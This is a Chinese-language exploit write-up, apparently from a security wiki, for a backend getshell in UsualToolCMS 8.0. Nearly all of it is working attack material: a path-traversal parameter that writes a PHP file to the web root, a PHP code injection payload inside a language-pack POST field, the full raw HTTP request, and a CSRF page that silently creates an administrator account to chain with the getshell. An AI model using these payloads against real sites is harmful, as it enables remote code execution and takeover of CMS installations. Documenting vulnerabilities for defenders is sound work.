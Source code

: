 UsualToolcms 8.0 后台GETSHELL
=============================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

洞点:<http://0-sec.org/cmsadmin/a_lang.php>

13行未对\$lg做判断

![](./resource/UsualToolcms8.0后台GETSHELL/media/rId25.png)

![](./resource/UsualToolcms8.0后台GETSHELL/media/rId26.png)

![](./resource/UsualToolcms8.0后台GETSHELL/media/rId27.png)

点击保存时抓包需要修改url处的lg参数这样就上传到跟目录了，再在post
参数的en后面加入

    en"},<?php phpinfo(); ?>

![](./resource/UsualToolcms8.0后台GETSHELL/media/rId28.png)

![](./resource/UsualToolcms8.0后台GETSHELL/media/rId29.png)

![](./resource/UsualToolcms8.0后台GETSHELL/media/rId30.png)

    POST /UsualToolCMS/cmsadmin/a_langx.php?x=m&lg=../1.php HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: text/html,application/xhtml xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Referer: http://192.168.235.242/UsualToolCMS/cmsadmin/a_langx.php?lg=lg-en.json
    Cookie: navleft=21; UTCMSLanguage=zh; PHPSESSID=1r5kk3jieflfbnseav3e5dnclo
    X-Forwarded-For: 8.8.8.8
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 9189

    submit=保存语言包&keys[]=language&values[]=en"},<?php phpinfo(); ?>&keys[]=charset&values[]=utf-8&keys[]=speak&values[]=English&keys[]=web&values[]=UsualToolCMS&key[]=index&value[]=Home&key[]=article&value[]=Article&key[]=product&value[]=Product&key[]=picture&value[]=Picture&key[]=atlas&value[]=Atlas&key[]=contact&value[]=Contact&key[]=about&value[]=About&key[]=forum&value[]=Forum&key[]=register&value[]=Register&key[]=login&value[]=Login&key[]=news&value[]=News&key[]=job&value[]=Job&key[]=wages&value[]=Wages&key[]=application&value[]=Application&key[]=resume&value[]=Resume&key[]=shopcart&value[]=Shopcart&key[]=account&value[]=Account&key[]=member&value[]=Member&key[]=up&value[]=Up&key[]=down&value[]=Down&key[]=more&value[]=More&key[]=new&value[]=New&key[]=authorize&value[]=Authorize&key[]=authenticating&value[]=Authenticating&key[]=qq&value[]=QQ&key[]=membercenter&value[]=Member&key[]=username&value[]=Username&key[]=password&value[]=Password&key[]=forgotpass&value[]=Forgot&key[]=search&value[]=Search&key[]=detail&value[]=Detail&key[]=size&value[]=Size&key[]=spec&value[]=Spec&key[]=color&value[]=Color&key[]=aboutus&value[]=About Us&key[]=newgoods&value[]=New Product&key[]=topgoods&value[]=Top Product&key[]=link&value[]=Link&key[]=confirm&value[]=Confirm&key[]=email&value[]=Email&key[]=title&value[]=Title&key[]=content&value[]=Content&key[]=avatar&value[]=Avatar&key[]=sex&value[]=Sex&key[]=man&value[]=Man&key[]=woman&value[]=Woman&key[]=address&value[]=ADD.&key[]=tel&value[]=Tel&key[]=fax&value[]=Fax&key[]=introduction&value[]=Intro&key[]=validatecode&value[]=Captcha&key[]=changeit&value[]=Change it&key[]=order&value[]=Order&key[]=writeorder&value[]=Write Order&key[]=menu&value[]=Menu&key[]=balance&value[]=Balance&key[]=level&value[]=Level&key[]=writearticles&value[]=Write Articles&key[]=articlemanagement&value[]=Article Admin&key[]=articlebrowse&value[]=Article Browse&key[]=writeonline&value[]=Add New&key[]=payment&value[]=Payment&key[]=registrationtime&value[]=Reg Time&key[]=lastlogintime&value[]=Last Login&key[]=fullname&value[]=Full Name&key[]=privileges:discount&value[]=Privileges:Discount&key[]=state&value[]=State&key[]=source&value[]=Source&key[]=ordernumber&value[]=Order No.&key[]=money&value[]=Money&key[]=time&value[]=Time&key[]=finish&value[]=Finish&key[]=unpaid&value[]=Unpaid&key[]=deliver&value[]=Deliver&key[]=refund&value[]=Refund&key[]=goods&value[]=Goods&key[]=charge&value[]=Charge&key[]=other&value[]=Other&key[]=ordertime&value[]=Order Time&key[]=voucher&value[]=Voucher&key[]=customer&value[]=Customer&key[]=zipcode&value[]=Zip Code&key[]=logistics&value[]=Logistics&key[]=logisticscompany&value[]=Company&key[]=logisticsnumber&value[]=Number&key[]=logisticsdetails&value[]=Details&key[]=paymentmethod&value[]=Method&key[]=alipay&value[]=Alipay&key[]=wechatpay&value[]=Tencent Wechat&key[]=paypal&value[]=Paypal&key[]=waitinganswer&value[]=Waiting&key[]=answered&value[]=Answered&key[]=question&value[]=Question&key[]=reply&value[]=Reply&key[]=tencentaccount&value[]=Tencent&key[]=weiboaccount&value[]=Weibo&key[]=wechataccount&value[]=Wechat&key[]=binded&value[]=Binded&key[]=untie&value[]=Untie&key[]=quantity&value[]=Qty&key[]=parameter&value[]=Parm&key[]=total&value[]=Total&key[]=submit&value[]=Submit&key[]=delete&value[]=Del&key[]=unit&value[]=USD&key[]=actual&value[]=Actual&key[]=feedback&value[]=Feedback&key[]=otheraccount&value[]=Other Accounts&key[]=out&value[]=Out&key[]=ranking&value[]=Ranking&key[]=recommend&value[]=Recommend&key[]=tag&value[]=Tag&key[]=tags&value[]=Tags&key[]=read&value[]=Read&key[]=productdetails&value[]=Product Details&key[]=service&value[]=Service&key[]=category&value[]=Category&key[]=allcategory&value[]=All Category&key[]=stock&value[]=Stock&key[]=price&value[]=Price&key[]=sale&value[]=Sale&key[]=loginview&value[]=Login View&key[]=readme&value[]=Read Me&key[]=popularity&value[]=Popularity&key[]=details&value[]=Details&key[]=message&value[]=Message&key[]=original&value[]=Original&key[]=author&value[]=Author&key[]=pass&value[]=Pass&key[]=audit&value[]=Audit&key[]=return&value[]=Return&key[]=yes&value[]=Yes&key[]=no&value[]=No&key[]=modify&value[]=Modify&key[]=articlemodify&value[]=Article Modify&key[]=type&value[]=Type&key[]=moreupload&value[]=Up to upload&key[]=success&value[]=Success&key[]=fail&value[]=Fail&key[]=upload&value[]=Upload&key[]=uploadtime&value[]=Upload Time&key[]=contactus&value[]=Contact Us&key[]=previouspage&value[]=Prev&key[]=nextpage&value[]=Next&key[]=firstpage&value[]=First&key[]=lastpage&value[]=Last&key[]=totalpage&value[]=Total&key[]=currentpage&value[]=Current&key[]=buy&value[]=Buy&key[]=mailverify&value[]=Email validation&key[]=welcome&value[]=Welcome&key[]=close&value[]=closed&key[]=findpassword&value[]=Find Password&key[]=contactmanager&value[]=Contact Manager&key[]=orderdetaillogin&value[]=For order details,please visit the website.&key[]=enterusername&value[]=Please enter username!&key[]=enterpassword&value[]=Please enter password!&key[]=enteremail&value[]=Please enter Email!&key[]=emailerr&value[]=Email error!&key[]=entertitle&value[]=Please enter title!&key[]=entercontent&value[]=Please enter content!&key[]=selecttype&value[]=Type must be selected!&key[]=enterauthor&value[]=Please enter author!&key[]=enterpasswords&value[]=Please confirm the password!&key[]=passworderr&value[]=The codes don&key[]=entercaptcha&value[]=Please enter captcha!&key[]=captchaerr&value[]=Captcha error!&key[]=mailsenderr&value[]=Mail not sent!&key[]=mailok&value[]=Please check email!&key[]=pleasemailverify&value[]=Please check email for verification!&key[]=mailverifycode&value[]=Email Authentication Code&key[]=mailcopylink&value[]=Please copy the following link&key[]=totalnum&value[]=Total Num&key[]=updateok&value[]=Update successed!&key[]=updateno&value[]=Failed to update!&key[]=payok&value[]=Successful payment!&key[]=payno&value[]=Payment Failed!&key[]=createempty&value[]=Required field is empty!&key[]=createok&value[]=Create successed!&key[]=createno&value[]=Failed to create!&key[]=gotopay&value[]=Go to pay!&key[]=untieok&value[]=Untie successed!&key[]=untieno&value[]=Untie failed!&key[]=delok&value[]=Delete successed!&key[]=delno&value[]=Delete failed!&key[]=regclose&value[]=Website registration closed!&key[]=regmailerr&value[]=Account or email registered!&key[]=loginusererr&value[]=Account does not exist!&key[]=loginpasserr&value[]=Account or password does not match!&key[]=administratorreply&value[]=The administrator has not responded, please wait patiently.&key[]=noscript&value[]=Sorry, your browser disabled JavaScript, it may not be able to use some of the site&key[]=readmecontent&value[]=We guarantee that the outer packing of the goods is in good condition at the time of shipment. When you receive the goods, please carefully check whether the invoice and the goods are consistent with the delivery order. If you find that the goods are missing or damaged, please contact our customer service department on the spot when the delivery personnel are still on the scene; If you find that the package is damaged or the goods are damaged in transit, please point out and refuse to accept it on the spot. After refusal, please call our customer service. If you have signed for it or someone else has signed for it, you will be considered as the packaging, quantity and content of the goods. I will not be able to accept.&key[]=copyright&value[]=Copyright&key[]=cssdisplay&value[]=none&key[]=test&value[]=Test
    请将上面post数据包内容进行url编码

### csrf配合上面的后台getshell

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
      <form action="http://0-sec.org/cmsadmin/a_adminx.php?x=a" method="POST">
          <input type="hidden" name="username" value="safetest" />
          <input type="hidden" name="roleid" value="1" />
          <input type="hidden" name="password" value="123456" />
          <input type="hidden" name="password&#95;confirm" value="123456" />
          <input type="hidden" name="submit" value="æ&#143;&#144;äº&#164;" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

![](./resource/UsualToolcms8.0后台GETSHELL/media/rId32.shtml)
